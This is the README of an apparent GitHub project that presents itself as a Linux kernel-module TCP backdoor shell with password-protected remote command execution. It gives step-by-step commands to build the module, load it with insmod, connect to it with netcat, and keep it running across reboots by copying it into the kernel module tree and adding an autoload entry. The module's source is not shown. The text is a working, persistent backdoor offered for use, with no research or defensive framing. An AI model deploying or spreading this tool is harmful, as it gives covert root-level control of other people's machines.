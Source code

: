 # Garpoz_Reptile 🐍🍉

🚀 **Garpoz_Reptile – Kernel level TCP backdoor shell with password authentication and command execution**

---

## 📥 Installation

### 1) Install kernel headers

Check your running kernel version:

```bash
uname -r
```

Install matching headers for your distro:

**Debian, Ubuntu, Raspberry Pi OS**

```bash
sudo apt-get update
sudo apt-get install linux-headers-$(uname -r) build-essential
```

**Fedora, CentOS Stream, RHEL**

```bash
sudo dnf install kernel-devel-$(uname -r) gcc make
```

**Arch Linux**

```bash
sudo pacman -Syu --noconfirm
sudo pacman -S --noconfirm linux-headers base-devel
```

> Headers must match `$(uname -r)` or the build will fail.

---

### 2) Get the source

```bash
git clone https://github.com/GarpozMaster/Garpoz_Reptile.git
cd Garpoz_Reptile
```

The module source is now in your working directory.

---

## 🔧 Configure

Edit the file `Garpoz_Reptile.c` to set your port and password:

```c
#define PORT 9999
#define PASSWORD "change_me"
```

make it after changes:

```bash
make
```

---

## 🚀 Usage

### Activate the module

```bash
sudo insmod Garpoz_Reptile.ko
```

Verify it is loaded:

```bash
lsmod | grep Garpoz_Reptile
```

### Connect to it

Use netcat from the same host or a host that can reach the chosen IP and port:

```bash
nc -v <ip> <port>
# example for local test:
# nc -v 127.0.0.1 9999
```

You will be prompted for the password.

### Deactivate the module

```bash
sudo rmmod Garpoz_Reptile
```

---

## ♻️ Persistent load at boot

1. Copy the module to the kernel tree:

```bash
sudo cp Garpoz_Reptile.ko /lib/modules/$(uname -r)/kernel/drivers/
```

2. Regenerate dependencies:

```bash
sudo depmod -a
```

3. Create an autoload config:

```bash
echo Garpoz_Reptile | sudo tee /etc/modules-load.d/Garpoz_Reptile.conf
```

Now the module will load automatically on boot. ✅

---

## 🧰 Clean build artifacts

```bash
make clean
```

---

## 🛠️ Dependencies

* Matching kernel headers for `$(uname -r)`
* Standard toolchain: `make`, `gcc`
* Module tools: `insmod`, `rmmod`, `depmod`

---

## 📄 License

This project is licensed under **GPL**. See `LICENSE` for details.

---

Made with ⚡ by **GarpozMaster**
